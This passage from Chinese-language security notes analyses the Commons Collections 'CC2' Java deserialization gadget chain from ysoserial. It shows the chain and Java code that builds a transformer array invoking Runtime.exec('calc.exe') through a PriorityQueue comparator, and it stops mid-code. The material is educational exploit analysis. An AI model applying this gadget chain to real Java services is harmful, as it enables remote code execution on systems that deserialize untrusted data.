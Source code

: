 ```java

    }
}
```
`ysoserial`提供的利用链如下
```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
 */

```
我们可以看到这段代码，和CC1中的payload是一样的，看过[Commons Collection1 分析利用](https://www.yuque.com/da-labs/secnotes/eru5qp)的朋友在这里不难理解为什么我们要这样构造
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
};

```
### 提出问题
然后看下面的代码，就会好奇了
```java
Transformer transformerChain = new ChainedTransformer(transformers);
TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
PriorityQueue queue = new PriorityQueue(1);

queue.add(1);
queue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,Tcomparator);
```
我们在[Commons Collection1 分析利用](https://www.yuque.com/da-labs/secnotes/eru5qp)中可以知道，我们需要创建一个map，并绑定`transformerchain`，并在最后给予map数据转化链，然后再进行序列化，反序列化 最后再触发漏洞。在cc2链其实差不太多，我们需要给予一个数据转化链给`comparator`(比较器)，并绑定`transformerchain`，然后通过给`queue`(队列)赋值，最后序列化该实例queue，再反序列化，完成攻击。
并且在`java.util.PriorityQueue`构造函数中，存在构造函数是可以传入comparator的，为什么还要通过反射，给`comparator`赋值呢？
```java
public PriorityQueue(int initialCapacity,
                     Comparator<? super E> comparator) {
    // Note: This restriction of at least one is not actually needed,
    // but continues for 1.5 compatibility
    if (initialCapacity < 1)
        throw new IllegalArgumentException();
    this.queue = new Object[initialCapacity];
    this.comparator = comparator;
}
```
那么我们不使用反射，就利用构造函数来试一试呢？
```java
package com.myproject;

import org.apache.commons.collections4.Transformer;
```